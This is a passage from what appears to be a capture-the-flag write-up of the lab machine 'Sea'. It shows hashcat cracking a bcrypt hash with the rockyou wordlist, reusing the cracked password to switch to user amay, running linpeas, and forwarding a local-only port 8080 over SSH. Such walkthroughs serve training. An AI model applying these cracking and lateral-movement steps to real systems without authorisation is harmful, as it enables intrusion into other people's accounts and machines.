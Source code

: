 ```terminal
                                                           
Session..........: hashcat
Status...........: Cracked       
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Thu Sep 12 21:56:16 2024 (1 min, 3 secs)
Time.Estimated...: Thu Sep 12 21:57:19 2024 (0 secs) 
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       49 H/s (4.55ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344385 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Util: 75%

Started: Thu Sep 12 21:55:37 2024
Stopped: Thu Sep 12 21:57:21 2024                                
```

We got a password, let's see if we can switch to any of the users on the machine.

```terminal
www-data@sea:/$ su amay
Password: 
amay@sea:/$ id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
```

The password belongs to `amay`.

Let's run linpeas and see what we can find.

```terminal
                                                                                                                                                                                              
╔══════════╣ Active Ports                                                                                                                                                                     
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                 
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:60571         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

We found the port 8080 is listening locally. Let's forward the port using ssh.

```bash
ssh -L 8000:127.0.0.1:8080 amay@sea.htb
```
